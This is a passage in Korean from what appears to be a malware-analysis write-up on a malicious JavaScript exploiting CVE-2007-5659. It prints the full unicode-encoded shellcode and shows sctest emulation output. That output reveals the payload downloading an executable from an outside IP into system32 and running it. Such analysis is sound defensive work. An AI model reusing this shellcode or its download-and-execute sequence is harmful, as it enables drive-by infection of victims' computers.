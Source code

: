 결과적으로 해당 악성 자바스크립트는 CVE-2007-5659 취약점을 사용해서 쉘코드를 실행하도록 구성되어 있음.

### 7-5 쉘코드 분석
`
$ cat shellcode_unicode 
%u4343%u4343%u0feb%u335b%u66c9%u80b9%u8001%uef33%ue243%uebfa%ue805%uffec%uffff%u8b7f%udf4e%uefef%u64ef%ue3af%u9f64%u42f3%u9f64%u6ee7%uef03%uefeb%u64ef%ub903%u6187%ue1a1%u0703%uef11%uefef%uaa66%ub9eb%u7787%u6511%u07e1%uef1f%uefef%uaa66%ub9e7%uca87%u105f%u072d%uef0d%uefef%uaa66%ub9e3%u0087%u0f21%u078f%uef3b%uefef%uaa66%ub9ff%u2e87%u0a96%u0757%uef29%uefef%uaa66%uaffb%ud76f%u9a2c%u6615%uf7aa%ue806%uefee%ub1ef%u9a66%u64cb%uebaa%uee85%u64b6%uf7ba%u07b9%uef64%uefef%u87bf%uf5d9%u9fc0%u7807%uefef%u66ef%uf3aa%u2a64%u2f6c%u66bf%ucfaa%u1087%uefef%ubfef%uaa64%u85fb%ub6ed%uba64%u07f7%uef8e%uefef%uaaec%u28cf%ub3ef%uc191%u288a%uebaf%u8a97%uefef%u9a10%u64cf%ue3aa%uee85%u64b6%uf7ba%uaf07%uefef%u85ef%ub7e8%uaaec%udccb%ubc34%u10bc%ucf9a%ubcbf%uaa64%u85f3%ub6ea%uba64%u07f7%uefcc%uefef%uef85%u9a10%u64cf%ue7aa%ued85%u64b6%uf7ba%uff07%uefef%u85ef%u6410%uffaa%uee85%u64b6%uf7ba%uef07%uefef%uaeef%ubdb4%u0eec%u0eec%u0eec%u0eec%u036c%ub5eb%u64bc%u0d35%ubd18%u0f10%u64ba%u6403%ue792%ub264%ub9e3%u9c64%u64d3%uf19b%uec97%ub91c%u9964%ueccf%udc1c%ua626%u42ae%u2cec%udcb9%ue019%uff51%u1dd5%ue79b%u212e%uece2%uaf1d%u1e04%u11d4%u9ab1%ub50a%u0464%ub564%ueccb%u8932%ue364%u64a4%uf3b5%u32ec%ueb64%uec64%ub12a%u2db2%uefe7%u1b07%u1011%uba10%ua3bd%ua0a2%uefa1%u7468%u7074%u2F3A%u372F%u2E38%u3031%u2E39%u3033%u352E%u632F%u756F%u746E%u302F%u3530%u4441%u3635%u2F46%u6F6C%u6461%u702E%u7068%u703F%u6664%u613D%u3836%u6534%u6563%u6565%u3637%u6366%u3235%u3732%u3337%u3832%u6136%u3938%u6235%u3863%u3334%u0036
`
<br><br>
다음 쉘코드를 분석하기 위해 exe파일로 변환하여 분석하는 방법을 사용함. 자바스크립트에서 핵심이 되는 쉘코드를 추출하여 shell_unicode에 저장함.

```shell
cat shellcode_unicode | unicode2raw > shellcode.raw
cat shellcode.raw | sctest -Svs 10000000 > sctest-out.txt
more sctest-out.txt
verbose = 1
Hook me Captain Cook!
userhooks.c:132 user_hook_ExitThread
ExitThread(-1)
stepcount 314321
HMODULE LoadLibraryA (
     LPCTSTR lpFileName = 0x00417193 => 
           = "URLMON";
) = 0x7df20000;
UINT GetSystemDirectory (
     LPTSTR lpBuffer = 0x00416c1e => 
           = "c:\WINDOWS\system32";
     UINT uSize = 255;
) =  19;
ERROR  DeleteFile (
     LPCTSTR lpFileName = 0x00416c1e => 
         none;
) =  -1;
HRESULT URLDownloadToFile (
     LPUNKNOWN pCaller = 0x00000000 => 
         none;
     LPCTSTR szURL = 0x0041719a => 
           = "http://78.109.30.5/count/005AD56F/load.php?pdf=a684eceee76fc522773286a895bc8436";
     LPCTSTR szFileName = 0x00416c1e => 
           = "c:\WINDOWS\system32\~.exe";
     DWORD dwReserved = 0;
     LPBINDSTATUSCALLBACK lpfnCB = 0;
) =  0;
UINT WINAPI WinExec (
     LPCSTR lpCmdLine = 0x00416c1e => 
           = "c:\WINDOWS\system32\~.exe";
     UINT uCmdShow = 0;
) =  32;
void ExitThread (
     DWORD dwExitCode = -1;
) =  0;
```